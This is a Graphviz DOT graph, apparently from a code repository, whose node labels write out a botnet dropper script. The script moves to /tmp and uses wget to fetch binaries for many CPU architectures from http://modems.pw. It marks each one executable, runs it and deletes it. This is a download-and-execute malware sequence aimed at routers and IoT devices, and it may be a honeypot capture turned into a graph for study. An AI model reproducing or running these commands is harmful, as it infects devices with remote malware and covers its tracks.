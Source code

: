 digraph {
0 [label="\r "];
0 -> 0
2 [label="cd /tmp\r "];
2 -> 2
4 [label="wget -q http://modems.pw/64 \r "];
4 -> 4
6 [label="chmod 755 64 \r "];
6 -> 6
8 [label="./64\r "];
8 -> 8
10 [label="rm -rf 64 \r "];
10 -> 10
12 [label="wget -q http://modems.pw/32\r "];
12 -> 12
14 [label="chmod 755 32 \r "];
14 -> 14
16 [label="./32\r "];
16 -> 16
18 [label="rm -rf 32\r "];
18 -> 18
20 [label="wget -q http://modems.pw/armv5l \r "];
20 -> 20
22 [label="chmod 755 armv5l \r "];
22 -> 22
24 [label="./armv5l\r "];
24 -> 24
26 [label="rm -rf armv5l \r "];
26 -> 26
28 [label="wget -q http://modems.pw/armv5l\r "];
28 -> 28
30 [label="chmod 755 armv4l\r "];
30 -> 30
32 [label="./armv4l\r "];
32 -> 32
34 [label="rm -rf armv4l\r "];
34 -> 34
36 [label="wget -q http://modems.pw/mips\r "];
36 -> 36
38 [label="chmod 755 mips\r "];
38 -> 38
40 [label="./mips\r "];
40 -> 40
42 [label="rm -rf mips\r "];
42 -> 42
44 [label="wget -q http://modems.pw/mipsel\r "];
44 -> 44
46 [label="chmod 755 mipsel\r "];
46 -> 46
48 [label="./mipsel\r "];
48 -> 48
50 [label="rm -rf mipsel\r "];
50 -> 50
52 [label="wget -q http://modems.pw/sh4\r "];
52 -> 52
54 [label="chmod 755 sh4\r "];
54 -> 54
56 [label="./sh4\r "];
56 -> 56
58 [label="rm -rf sh4\r "];
58 -> 58
60 [label="wget -q http://modems.pw/sparc\r "];
60 -> 60
62 [label="chmod 755 sparc\r "];
62 -> 62
64 [label="./sparc\r "];
64 -> 64
66 [label="rm -rf sparc\r "];
66 -> 66
68 [label="wget -q http://modems.pw/i586\r "];
68 -> 68
70 [label="chmod 755 i586\r "];
70 -> 70
72 [label="./i586\r "];
72 -> 72
74 [label="rm -rf i586\r "];
74 -> 74
76 [label="wget -q http://modems.pw/i686\r "];
76 -> 76
78 [label="chmod 755 i686\r "];
78 -> 78
80 [label="./i686\r "];
80 -> 80
82 [label="rm -rf i686\r "];
82 -> 82
84 [label="wget -q http://modems.pw/m68k\r "];
84 -> 84
86 [label="chmod 755 m68k\r "];
86 -> 86
88 [label="./m68k\r "];
88 -> 88
90 [label="rm -rf m68k\r "];
90 -> 90
92 [label="wget -q http://modems.pw/powerpc\r "];
92 -> 92
94 [label="chmod 755 powerpc\r "];
94 -> 94
96 [label="./powerpc\r "];
96 -> 96
98 [label="rm -rf powerpc\r "];
98 -> 98
100 [label="wget -q http://modems.pw/powerpc440fp\r "];
100 -> 100
102 [label="chmod 755 powerpc440fp\r "];
102 -> 102
104 [label="./powerpc440fp\r "];
104 -> 104
}

